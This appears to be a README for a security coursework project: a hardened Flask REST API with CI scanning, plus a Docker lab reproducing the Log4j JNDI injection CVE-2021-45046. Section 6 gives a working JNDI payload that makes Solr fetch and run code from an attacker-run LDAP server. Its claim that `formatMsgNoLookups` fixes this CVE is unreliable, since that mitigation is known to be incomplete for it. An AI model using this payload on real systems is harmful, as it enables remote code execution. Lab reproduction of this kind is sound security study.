



# Secure REST API with CI/CD and CVE-2021-45046 Reproduction

## 1. Project Description
A secure REST API built with Python (Flask) + SQLAlchemy (SQLite), protected against
SQL injection, XSS and broken authentication, with a GitHub Actions CI/CD pipeline that
runs SAST (Bandit) and SCA (Safety) on every push. A companion lab reproduces the
Apache Log4j JNDI injection vulnerability CVE-2021-45046 in a controlled Docker/Vulhub
environment, analyses its root cause, applies a fix and verifies it.

## 2. API Endpoints
| Method | Endpoint       | Description                                    | Auth |
|--------|----------------|------------------------------------------------|------|
| POST   | /auth/register | Register a user (username, password)           | No   |
| POST   | /auth/login    | Login, returns a JWT token                     | No   |
| GET    | /api/data      | Returns a list of posts (authenticated only)   | JWT  |

How to call:
```bash
curl -X POST http://127.0.0.1:5000/auth/register \
  -H "Content-Type: application/json" \
  -d '{"username":"bob","password":"pass123"}'

curl -X POST http://127.0.0.1:5000/auth/login \
  -H "Content-Type: application/json" \
  -d '{"username":"admin","password":"secret123"}'
# -> {"token":"eyJ..."}

curl http://127.0.0.1:5000/api/data -H "Authorization: Bearer <token>"
# -> [{"author":"admin","content":"world","id":1,"title":"hello"}]
```

## 3. Security Measures
- **SQLi protection**: all queries use the SQLAlchemy ORM (parameterized queries);
  no SQL is built by string concatenation.
- **XSS protection**: all user data returned by the API is escaped with
  `markupsafe.escape()`.
- **Authentication**: a JWT (HS256) is issued at login; a `@token_required`
  decorator verifies the token on protected endpoints.
- **Password storage**: passwords are hashed with bcrypt (salted); never stored
  in plaintext. The JWT secret is read from the `SECRET_KEY` environment variable.

## 4. CI/CD with Security Scanners
`.github/workflows/ci.yml` runs on every push/PR:
- **SAST**: Bandit (`bandit -r app.py`) - no issues identified.
- **SCA**: Safety - upgraded setuptools to >=83.0.0 to fix CVE-2026-59890;
  final scan reports 0 vulnerabilities.
- Artifacts: bandit-report.html is uploaded.





Last successful run: https://github.com/gwynum1/secure-api/actions/runs/40293026151
Artifact (bandit-report.html): https://github.com/gwynum1/secure-api/actions/runs/40293026151/artifacts/12637655246

## 5. Selected Vulnerability: CVE-2021-45046
Apache Log4j 2 JNDI injection (2.0-beta9 ~ 2.15.0; fixed in 2.16.0; CVSS 9.0).
It is the incomplete-fix variant of CVE-2021-44228 (Log4Shell): a `${jndi:...}`
lookup in logged data triggers a remote JNDI request, enabling information leak
and remote code execution.

## 6. Reproduction Steps
1. `git clone https://github.com/vulhub/vulhub.git && cd vulhub/log4j/CVE-2021-44228`
2. `docker compose up -d` (Solr 8.11.0, Log4j 2.14.1, JDK 1.8.0_102) -> http://localhost:8983
3. Start a malicious LDAP server (Java-Chains) on the host.
4. Send the payload:
   ```bash
   curl "http://localhost:8983/solr/admin/cores?action=%24%7Bjndi%3Aldap%3A%2F%2Fhost.docker.internal%3A50389%2F55842728ad652a3be506a817ceccc986%7D"
   ```
5. `docker exec <solr-container> ls /tmp` -> `success` (RCE confirmed)

## 7. Root Cause
Improper input handling + insecure default configuration: Log4j treats `${...}`
in log messages as lookup expressions and performs JNDI lookups without input
validation, allowing a remote LDAP server to supply Java bytecode that is executed
by the target JVM. CVE-2021-45046 is the incomplete-fix variant that bypasses the
2.15.0 localhost restriction.

## 8. Applied Fix
Added a JVM option to the Solr container in `docker-compose.yml`:
```yaml
environment:
  - JAVA_TOOL_OPTIONS=-Dlog4j2.formatMsgNoLookups=true
```
This disables message lookups, so `${jndi:...}` is never evaluated.

## 9. Verification of Fix
Re-running the same payload after the fix no longer creates `/tmp/success`
(attack blocked), and the Solr dashboard (port 8983) still works (regression OK).
